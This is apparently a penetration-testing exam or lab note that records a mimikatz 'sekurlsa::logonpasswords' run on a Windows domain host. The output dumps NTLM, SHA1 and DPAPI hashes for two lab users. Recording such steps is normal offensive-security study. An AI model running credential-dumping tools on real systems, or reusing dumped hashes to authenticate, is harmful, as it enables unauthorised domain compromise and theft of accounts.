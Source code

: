 
![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/successful mimikatz transfer on box 1 of ad.png]]

- running mimikatz

```shell

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 358387 (00000000:000577f3)
Session           : Batch from 0
User Name         : Alice.Walters
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 4/12/2023 1:20:12 PM
SID               : S-1-5-21-3248544096-1843048206-1379434323-1117
	msv :	
	 [00000003] Primary
	 * Username : Alice.Walters
	 * Domain   : OSCP
	 * NTLM     : 3e24dcead23468ce597d6883c576f657
	 * SHA1     : 00d092cc9ec1e1df25681c27f23578ea953c2b4f
	 * DPAPI    : 0dd3f40f17a44d5ff351f7cd8ee69af5
	tspkg :	
	wdigest :	
	 * Username : Alice.Walters
	 * Domain   : OSCP
	 * Password : (null)
	kerberos :	
	 * Username : Alice.Walters
	 * Domain   : OSCP.EXAM
	 * Password : (null)
	ssp :	
	credman :	
	cloudap :	

Authentication Id : 0 ; 280449 (00000000:00044781)
Session           : Interactive from 1
User Name         : Bob.Martin
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 4/12/2023 1:20:11 PM
SID               : S-1-5-21-3248544096-1843048206-1379434323-1118
	msv :	
	 [00000003] Primary
	 * Username : Bob.Martin
	 * Domain   : OSCP
	 * NTLM     : 2a12e2af96237b2e7277f1b321ceb7b7
	 * SHA1     : fa25c53ee57d14ae3366c6300ff2b0dc2949cbe4
	 * DPAPI    : 321d3d569722c849083c94967b1045b3
	tspkg :	
	wdigest :	
	 * Username : Bob.Martin
	 * Domain   : OSCP
	 * Password : (null)
	kerberos :	
	 * Username : Bob.Martin
	 * Domain   : OSCP.EXAM
	 * Password : (null)
	ssp :	
	credman :	
	cloudap :	

Authentication Id : 0 ; 995 (00000000:000003e3)
```